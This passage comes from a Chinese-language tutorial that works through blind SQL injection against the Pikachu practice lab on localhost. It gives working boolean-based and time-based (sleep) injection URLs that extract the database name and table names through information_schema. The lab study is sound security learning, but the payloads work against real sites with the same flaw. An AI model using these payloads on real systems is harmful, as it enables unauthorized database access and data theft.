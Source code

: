 三. 使用 and 盲注获取数据库名称：

```sql
http://localhost/pikachu/vul/sqli/sqli_blind_b.php?name=lili' and ascii(substr(database(),1,1))=112--+&submit=%E6%9F%A5%E8%AF%A2
```

四. 使用 and 获取所有数据表名称：

```sql
http://localhost/pikachu/vul/sqli/sqli_blind_b.php?name=lili' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))=104--+&submit=%E6%9F%A5%E8%AF%A2
```

五. 同理获取数据表中列名，再然后获取的表数据，这里不再多说

但目前情况是：我们不知道正确的 username，进而没办法使用 and 盲注，只能使用 or 盲注，**而本关 or 盲注没办法通过页面来判断注入是否成功，所以只能使用基于时间 or 盲注**：

一. 判断注入类型：

```sql
# 通过错误注入法 + 休眠函数，可得闭合符号为单引号
http://localhost/pikachu/vul/sqli/sqli_blind_b.php?name=xxx' or (select sleep(1))--+&submit=%E6%9F%A5%E8%AF%A2
```

二. 获取数据库名长度：

```sql
http://localhost/pikachu/vul/sqli/sqli_blind_b.php?name=xxx' or if(length(database())=7,sleep(1),null)--+&submit=%E6%9F%A5%E8%AF%A2
```

三. 获取数据库名：

```sql
http://localhost/pikachu/vul/sqli/sqli_blind_b.php?name=xxx' or if(ascii(substr(database(),1,1))=112,sleep(1),null)--+&submit=%E6%9F%A5%E8%AF%A2
```

四. 获取所有数据表名：

```sql
http://localhost/pikachu/vul/sqli/sqli_blind_b.php?name=xxx' or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))=104,sleep(1),null)--+&submit=%E6%9F%A5%E8%AF%A2
```

五. 同理获取数据表中列名，再然后获取的表数据，这里不再多说



## 盲注（base on time，即基于时间盲注）

同 "盲注（base on boolian）"中的基于时间的 or 盲注，这里不再多说



## ❌ 宽字节注入
